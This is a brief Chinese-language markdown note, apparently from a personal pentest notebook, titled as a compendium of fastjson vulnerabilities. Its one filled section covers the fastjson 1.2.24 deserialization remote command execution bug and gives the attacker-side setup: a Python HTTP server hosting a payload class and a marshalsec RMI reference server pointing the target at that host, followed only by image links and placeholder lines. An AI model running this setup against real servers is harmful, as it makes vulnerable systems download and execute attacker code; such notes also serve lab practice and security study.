# fastjson漏洞大全
[TOC]

## 涉及组件工具
123
123

## fastjson 1.2.24 反序列化导致任意命令执行漏洞

python3 -m http.server 8000
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://192.168.43.197:8000/#TouchFile 9999


![](assets/101/20210419-5b16d80a.png)  
![](assets/101/20210419-5b16d80a.png)  
